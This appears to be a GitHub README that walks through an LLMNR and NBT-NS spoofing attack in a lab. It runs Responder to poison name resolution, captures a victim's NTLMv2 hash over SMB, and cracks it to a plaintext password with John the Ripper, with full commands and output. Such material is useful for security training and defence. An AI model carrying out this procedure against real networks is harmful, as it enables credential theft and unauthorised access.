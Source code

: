 ## Attack
LLMNR and NBT-NS Spoofing

## Procedure
- Start Capturing the traffic on the interface you are connected with the filter ```ip.addr == <Address of the victim>```.   
- Start responder on interface with sudo privileges.
```bash
f4lc0n@klaw /g/Responder> sudo ./Responder.py -I eno1 -wrf
```
 - The output will be in a similar way.


```bash
.----.-----.-----.-----.-----.-----.--|  |.-----.----.
|   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
|__| |_____|_____|   __|_____|__|__|_____||_____|__|
|__|

NBT-NS, LLMNR & MDNS Responder 2.3

Author: Laurent Gaffie (laurent.gaffie@gmail.com)
To kill this script hit CRTL-C


[+] Poisoners:
LLMNR                      [ON]
NBT-NS                     [ON]
DNS/MDNS                   [ON]

[+] Servers:
HTTP server                [ON]
HTTPS server               [ON]
WPAD proxy                 [ON]
SMB server                 [ON]
Kerberos server            [ON]
SQL server                 [ON]
FTP server                 [ON]
IMAP server                [ON]
POP3 server                [ON]
SMTP server                [ON]
DNS server                 [ON]
LDAP server                [ON]

[+] HTTP Options:
Always serving EXE         [OFF]
Serving EXE                [OFF]
Serving HTML               [OFF]
Upstream Proxy             [OFF]

[+] Poisoning Options:
Analyze Mode               [OFF]
Force WPAD auth            [OFF]
Force Basic Auth           [OFF]
Force LM downgrade         [OFF]
Fingerprint hosts          [ON]

[+] Generic Options:
Responder NIC              [eno1]
Responder IP               [192.168.43.178]
Challenge set              [1122334455667788]

[+] Listening for events...
```

- Now start accessing a inaccessible server on the Victim Machine.![](https://github.com/bj1408/LLMNR-Attack/blob/master/images/VictimSS1.png)

- Now we can see that Responder captures this event.
```bash
[+] Listening for events...
[SMB] NTLMv2-SSP Client   : 192.168.43.178
[SMB] NTLMv2-SSP Username : win7\f4lc0n
[SMB] NTLMv2-SSP Hash     : f4lc0n::win7:1122334455667788:C70EFFD5915B4121E403760CC5C484CB:0101000000000000A89E44AB2F15D5013D9048CA1088913D0000000002000A0053004D0042003100320001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D004200310032000800300030000000000000000100000000200000DA67F4AC3DE52B034E39D510C5B9053CDF0220D4DDD1DA9DC814C2571E50F29F0A0010000000000000000000000000000000000009001C0063006900660073002F006600690065006C00730068006100720065000000000000000000
[SMB] Requested Share     : \\FIELSHARE\IPC$
[*] Skipping previously captured hash for win7\f4lc0n
[SMB] Requested Share     : \\FIELSHARE\IPC$
``` 
- Responder successfully stole the password NTLM hash of the victim machine.
- Now use john for cracking the hash.
```bash
f4lc0n@klaw /g/Responder> john hash.txt
Warning: detected hash type "netntlmv2", but the string is also recognized as "ntlmv2-opencl"
Use the "--format=ntlmv2-opencl" option to force loading these as that type instead
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password         (f4lc0n)
1g 0:00:00:00 DONE 2/3 (2019-05-28 14:20) 2.439g/s 72214p/s 72214c/s 72214C/s 123456..MATT
Use the "--show" option to display all of the cracked passwords reliably
```
